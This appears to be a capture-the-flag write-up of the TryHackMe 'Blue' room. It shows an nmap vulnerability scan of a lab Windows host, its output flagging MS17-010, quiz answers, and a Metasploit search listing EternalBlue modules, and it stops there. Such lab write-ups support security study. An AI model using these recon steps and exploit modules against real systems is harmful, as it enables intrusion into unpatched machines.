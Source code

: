 # Feel free to check my THM profile : https://tryhackme.com/p/pycasian
# Blue -- Hacking into a Windows Machine
Scanning the machine with nmap

nmap --script=vuln -sV -A 10.10.215.233 ( please note that IPs vary )

Nmap scan report for 10.10.215.233 Host is up (0.43s latency). Not shown: 991 closed ports PORT STATE SERVICE VERSION 135/tcp open msrpc Microsoft Windows RPC 139/tcp open netbios-ssn Microsoft Windows netbios-ssn 445/tcp open microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP) 3389/tcp open ssl/ms-wbt-server? | rdp-vuln-ms12-020: | VULNERABLE: | MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability | State: VULNERABLE | IDs: CVE:CVE-2012-0152 | Risk factor: Medium CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P) | Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service. |
| Disclosure date: 2012-03-13 | References: | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152 | http://technet.microsoft.com/en-us/security/bulletin/ms12-020 |
| MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability | State: VULNERABLE | IDs: CVE:CVE-2012-0002 | Risk factor: High CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C) | Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system. |
| Disclosure date: 2012-03-13 | References: | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002 |_ http://technet.microsoft.com/en-us/security/bulletin/ms12-020 |_ssl-ccs-injection: No reply from server (TIMEOUT) |_sslv2-drown: 49152/tcp open msrpc Microsoft Windows RPC 49153/tcp open msrpc Microsoft Windows RPC 49154/tcp open msrpc Microsoft Windows RPC 49158/tcp open msrpc Microsoft Windows RPC 49160/tcp open msrpc Microsoft Windows RPC Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results: |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED |_smb-vuln-ms10-054: false |smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED | smb-vuln-ms17-010: | VULNERABLE: | Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010) | State: VULNERABLE | IDs: CVE:CVE-2017-0143 | Risk factor: HIGH | A critical remote code execution vulnerability exists in Microsoft SMBv1 | servers (ms17-010). |
| Disclosure date: 2017-03-14 | References: | https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/ | https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143 | https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 142.18 seconds

How many ports are open with a port number under 1000?

Answer : 3

What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

Answer : ms17-010

Gaining Access
Start Metasploit
Completed.

Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/……..)

msf6 > search ms17-010

Matching Modules
Name Disclosure Date Rank Check Description
0 auxiliary/admin/smb/ms17_010_command 2017-03-14 normal No MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution 1 auxiliary/scanner/smb/smb_ms17_010 normal No MS17-010 SMB RCE Detection 2 exploit/windows/smb/ms17_010_eternalblue 2017-03-14 average Yes MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption 3 exploit/windows/smb/ms17_010_eternalblue_win8 2017-03-14 average No MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+ 4 exploit/windows/smb/ms17_010_psexec 2017-03-14 normal Yes MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution 5 exploit/windows/smb/smb_doublepulsar_rce 2017-04-14 great Yes SMB DOUBLEPULSAR Remote Code Execution
